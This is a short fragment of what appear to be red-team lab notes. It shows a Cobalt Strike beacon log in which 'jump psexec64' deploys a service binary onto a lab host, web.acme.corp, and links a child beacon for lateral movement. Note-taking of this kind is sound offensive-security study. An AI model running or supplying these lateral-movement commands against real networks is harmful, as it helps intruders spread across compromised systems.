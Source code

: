 from `pcotton` on `WKSTN` utilize command below

```powershell
[02/18 00:18:49] beacon> jump psexec64 web.acme.corp smb
[02/18 00:18:50] [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\Microsoft-bugsinthere1337) on web.acme.corp via Service Control Manager (\\web.acme.corp\ADMIN$\19bf2e6.exe)
[02/18 00:18:56] [+] host called home, sent: 354653 bytes
[02/18 00:19:30] [+] received output:
Started service 19bf2e6 on web.acme.corp
[02/18 00:19:30] [+] established link to child beacon: 10.10.120.20
```
![[Pasted image 20240217192046.png]]